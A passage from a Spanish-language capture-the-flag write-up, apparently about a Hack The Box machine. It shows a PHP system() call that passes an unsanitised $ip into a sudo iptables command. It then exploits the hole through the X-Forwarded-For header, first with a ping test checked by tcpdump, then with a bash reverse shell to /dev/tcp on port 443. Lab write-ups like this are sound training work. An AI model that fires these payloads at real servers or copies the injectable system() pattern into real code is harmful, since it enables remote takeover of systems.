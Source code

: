 Ejecucion a nivel de sistema , donde vemos que el parametro `$ip` es vulnerable a `Command Injection`

```bash
system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
```

Procedemos a inteceptar una peticion a la ruta `/firewall.php` a nivel web con `Burpsuite`

```bash
GET /firewall.php HTTP/1.1
Host: 10.10.11.128
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=5lool1v1b56bq1tf6n9bisijau
Upgrade-Insecure-Requests: 1
" X-FORWARDER-FOR: 1.1.1.1; ping -c 1 10.10.16.7 ; "
```

Nos ponemos a la escucha por nuestra consola con `tcpdump -i tun0` :

```bash
tcpdump -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
20:10:34.071410 IP 10.10.16.7.48718 > 10.10.11.128.http: Flags [S], seq 1366744572, win 64240, options [mss 1460,sackOK,TS val 2534213280 ecr 0,nop,wscale 7], length 0
20:10:34.144336 IP 10.10.11.128.http > 10.10.16.7.48718: Flags [S.], seq 329548905, ack 1366744573, win 65160, options [mss 1355,sackOK,TS val 1232939330 ecr 2534213280,nop,wscale 7], length 0
20:10:34.144354 IP 10.10.16.7.48718 > 10.10.11.128.http: Flags [.], ack 1, win 502, options [nop,nop,TS val 2534213353 ecr 1232939330], length 0
20:10:34.144462 IP 10.10.16.7.48718 > 10.10.11.128.http: Flags [P.], seq 1:423, ack 1, win 502, options [nop,nop,TS val 2534213353 ecr 1232939330], length 422: HTTP: GET /firewall.php HTTP/1.1
20:10:34.302406 IP 10.10.11.128.http > 10.10.16.7.48718: Flags [.], ack 423, win 506, options [nop,nop,TS val 1232939489 ecr 2534213353], length 0
```

Vemos que recibimos la traza ICMP correctamente a nuestro equipo, asique procedemos a intentar enviarnos una revershell a nuestro equip:

```bash
GET /firewall.php HTTP/1.1
Host: 10.10.11.128
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.128/challenge.php
Connection: close
Cookie: PHPSESSID=vtlolo0qm5uig3et8q279q9ico
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
X-FORWARDED-FOR: ; ping -c 1 10.10.16.7 && bash -c "bash -i >& /dev/tcp/10.10.16.7/443 0>&1"
```
